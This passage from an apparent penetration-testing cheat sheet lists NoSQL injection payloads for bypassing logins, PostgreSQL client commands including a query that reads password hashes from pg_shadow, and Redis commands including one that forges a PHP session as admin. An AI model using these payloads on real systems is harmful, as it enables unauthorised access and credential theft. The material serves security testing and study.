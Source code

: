 #### NoSQL Injection

```c
admin'||''==='
{"username": {"$ne": null}, "password": {"$ne": null} }
```

#### PostgreSQL

```c
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
```

### Common Commands

```c
postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

#### Redis

```c
> AUTH <PASSWORD>
> AUTH <USERNAME> <PASSWORD>
> INFO SERVER
> INFO keyspace
> CONFIG GET *
> SELECT <NUMBER>
> KEYS *
> HSET       // set value if a field within a hash data structure
> HGET       // retrieves a field and his value from a hash data structure
> HKEYS      // retrieves all field names from a hash data structure
> HGETALL    // retrieves all fields and values from a hash data structure
> GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
> SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"admin\";auth|s:4:\"True\";" # the value "s:8" has to match the length of the username
```
